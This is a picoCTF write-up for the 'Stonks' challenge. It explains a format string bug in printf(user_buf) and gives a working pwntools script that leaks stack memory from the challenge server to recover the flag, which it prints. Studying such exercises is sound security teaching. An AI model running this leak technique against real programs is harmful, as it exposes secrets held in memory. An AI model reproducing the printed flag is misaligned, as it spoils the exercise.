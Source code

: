 # Stonks
> Binary Exploitation

### Description
> I decided to try something no one else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!
>
> [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c)
>
> nc mercury.picoctf.net 16439
>
> **Hint 1: Okay, maybe I'd believe you if you find my API key.**

### Solution
It seems we're given a vulnerable C program and a domain/port to netcat to. It's a safe bet to think that `vuln.c` is the program we'll be interacting with over netcat. Furthermore, it's probably the case that the program is reading a flag stored somewhere on the server, and our job is to find out where the program is vulnerable, exploit that, and retrieve the flag off it.

Opening up `vuln.c` and taking a look at what's inside, there are 2 things that jump out as interesting.

One is that in the function buy\_stonks(Portfolio \*p), we see the following:
```
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api", "r");
if (!f) {
    printf("Flag file not found. Contact an admin.\n");
    exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```
Which indicates that the flag is being read into a buffer stored in the program.

The other thing to jump out as interesting is this:
```
// TODO: Figure out how to read token from file, for now just ask

char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);

// TODO: Actually use key to interact with API

view_portfolio(p);
```
Which indicates the program is taking in user input and placing that into a buffer right after the API (flag) is stored. If we can somehow overflow the buffer the user input is stored in, we might be able to access the flag stored in the previous buffer (a.k.a buffer overrun since we're reading - not writing - past the end of the array).

Looking at this code block, these 3 lines are particularly important:
```
char *user_buf = malloc(300 + 1);
scanf("%300s", user_buf);
printf(user_buf);
```
Here, we can see that the input buffer is being printed out, with no accompanying sanitation. Furthermore, there's no format specifier for what's passed into the function call. This looks like it might be vulnerable to an [uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string) (or format string exploit) attack. If we use some %x format tokens as our input, we can print out some stack addresses in hex format.

The reason this works is pretty clearly explained in [this](https://www.youtube.com/watch?v=0WvrSfcdq1I) LiveOverflow video. Essentially, printf is reading whatever was placed onto the stack. Normally, these are the parameters you've placed onto the stack when you call printf, but in this case since we're going to be using the %x format token and there are no passed in parameters, printf is will read values off the stack. It shouldn't do this, but it does. There are more arguments being called than were provided, so it will pull from the stack. If we can throw in enough %x's (to print stack data in hex format) in there, we should be able to print the flag value that's stored on the stack.

So, we can use python to connect to the socket and write out these format specifiers:
```
import socket
from pwn import * # NOQA

r = remote("mercury.picoctf.net", 16439) # NOQA
r.recvuntil(b"View my portfolio\n")

r.send(b"1\n")
r.recvuntil(b"What is your API token?\n")

# Using format string attack here
r.send("%x" + "-%x"*40 + "\n")
r.recvline()

# Now we want to capture the "printf" output of user_buf
buf = r.recvline()
buf = buf[:-1].decode()
print(buf)

s = ""
for i in buf.split('-'):
    if len(i) == 8:
        a = bytearray.fromhex(i)

        for b in reversed(a):
            if b > 32 and b < 128:
                s += chr(b)

print(s)
```
Which results in our flag! Note that this is an inherent vulnerability within printf and to avoid such attacks, always call the function with format specifiers or sanitize user input.

### Flag
`picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}`

### Helpful Resources
- https://stackoverflow.com/questions/31206885/why-is-printf-printing-out-in-this-code
